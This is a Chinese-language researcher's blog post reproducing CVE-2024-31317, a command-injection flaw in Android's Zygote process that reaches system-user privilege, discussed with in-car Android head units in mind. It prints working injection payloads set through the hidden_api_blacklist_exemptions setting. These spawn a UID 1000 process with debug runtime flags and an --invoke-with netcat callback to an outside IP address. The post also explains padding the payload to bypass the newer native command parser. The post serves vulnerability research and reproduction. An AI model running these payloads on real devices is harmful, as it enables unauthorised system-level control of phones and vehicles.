




# CVE-2024-31317
## 前言
前两天看到JD的公众号发了篇CVE-2024-31317漏洞的分析，通篇看下来感觉还是比较有意思，且车机目前主流方案均为安卓系统且都在该漏洞的有限范围内，遂开始复现。
因为是用户态的提权，需先获取对应用户权限。因此在车联网场景下存在一定的限制，目前主流做法是限制未知签名的APK安卓且无法直接开发工程模式及ADB。但结合其他漏洞或技巧还是比较靠谱的，毕竟System能够做很多事情。另外需要注意的是该漏洞需要`WRITE_SECURE_SETTINGS`权限，默认情况下ADB具备此权限，在获取工程模式后用于提权还是比较滋润的，若无法直接使用ADB则需配合其他漏洞进行获取。
## 低版本下的利用
漏洞属于命令注入，整体分析难度不大，但是分析前还是需要了解下Zygote。Zygote 作为守护进程运行，可以通过fork的形式来创建应用程序进程，并接受/dev/socket/zygote 上的UNIX套接字命令。每个命令由一个十进制数字开头，后面跟对应数字的参数条数。
```
8                              [command #1 arg count]
--runtime-args                 [arg #1: vestigial, needed for process spawn]
--setuid=10266                 [arg #2: process UID]
--setgid=10266                 [arg #3: process GID]
--target-sdk-version=31        [args #4-#7: misc app parameters]
--nice-name=com.facebook.orca
--app-data-dir=/data/user/0/com.facebook.orca
--package-name=com.facebook.orca
android.app.ActivityThread     [arg #8: Java entry point]
3                              [command #2 arg count]
--set-api-denylist-exemptions  [arg #1: special argument, don't spawn process]
LClass1;->method1(             [args #2, #3: denylist entries]
LClass1;->field1:
```
diif path文件可知修改内容为增加换行符注释，这侧面证明在老版本中我们可以通过换行进行命令注入达到启动新进程的目的。

继续向上跟踪该函数的调用，可以看到从最开始读取`HIDDEN_API_BLACKLIST_EXEMPTIONS`值到后续所有传递并没有任何过滤操作，也就是说我们可能直接注入任意参数进去。


那么很自然可以想到，我们只要有办法能够控制`HIDDEN_API_BLACKLIST_EXEMPTIONS`的值即可注入我们的自定义参数。前面提到想设置该值我们需要`WRITE_SECURE_SETTINGS`权限。ADB默认具备该权限，只需要通过系统自带的settings命令执行`settings put global hidden_api_blacklist_exemptions command`即可。于是我们可以通过类似以下方式尝试注入一个新的进程
```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(
8
--runtime-args
--setuid=1000
--setgid=1000
--nice-name=com.android.settings
--app-data-dir=/data/user/0/com.android.settings
--package-name=com.android.settings
--seinfo=platform:system_app:targetSdkVersion=29:complete
android.app.ActivityThread"
```
但似乎这并不能满足我们的需求，依旧无法执行命令。通过分析发现invokeWith参数可以进命令执行。

那接下来就很简单了，我们只需构造类似以下命令即可
```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(
6
--runtime-args
--setuid=1000
--setgid=1000
--invoke-with
nc 192.168.0.112 9981;
--seinfo=platform:system_app:targetSdkVersion=29:complete"
```
此时会发现并不能成功触发，查看logcat会发现返回以下信息，提示需要debug模式，那么我们该如何让其进入debug？

继续查阅代码可知，启动时存在runtime-flags参数，用于配置debug属性。

可配置参数如下

因此我们只需在启动时加上该参数，并将所有debug属性开启即可，修改后命令如下
```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(
7
--runtime-args
--setuid=1000
--setgid=1000
--runtime-flags=43267
--invoke-with
nc 192.168.0.112 9981;
--seinfo=platform:system_app:targetSdkVersion=29:complete"
```
执行后nc成功捕获到网络请求

## 高版本下的利用
在Android 11及以下可以使用上述方法进行简单利用，但到了Android 12之后Google实现了一个快速路径的C++命令解析器，用于增强Zygote的Java命令解析器，并通过新类`NativeCommandBuffer`来完成该任务。NativeCommandBuffer在解析完所有命令行后，会将后续的内容全部丢弃并重新从套接字读取下一个命令，也就是说当我们通过命令注入两个命令后他会丢弃我们注入的内容，导致注入无法发生。那么这里就需要一个方法来bypass掉第一次的read()调用，这里主要参考了原作者的方法，在末尾插入大量逗号， 使得`maybeSetApiDenylistExemptions()` 在写入之后花费大量的时间进行循环来增加中间的时间间隔。这里的主要逻辑是因为
`maybeSetApiDenylistExemptions()`会多次调用`state.mZygoteOutputWriter.write()`但是这些调用没有直接映射到套接字写入，因为`mZygoteOutputWriter`继承自`BufferedWriter`它在写入底层传输之前会聚合内部缓冲区中的数据。这个机制提供了一种现成的方法来发出两个套接字的写入，并且它们之间存在适当的延迟。
`BufferedWriter`的缓冲区大小为 8192字节 ，远小于 Zygote 的缓冲区。这里只需在插入注入的恶意命令之前将其填充到8192 字节，强制 `BufferedWriter`先写入这些数据。
## 参考文章
- [https://blog.flanker017.me/the-new-mystique-bug-cve-2024-31317/](https://blog.flanker017.me/the-new-mystique-bug-cve-2024-31317/)
- [https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html](https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html)
## 写在最后
本来这个文章早就该写出来了，一直忙给忙忘了😷另外铸网的时候用这个漏洞水了不少分，最近做一个测试的项目刚好是安卓车机于是想起来了这篇写一半的博客，赶紧趁着还能想起一点东西赶紧记录了下来。此外十分感谢在复现该漏洞的时候flanker大佬提供的帮助，帮我避免了大量的坑。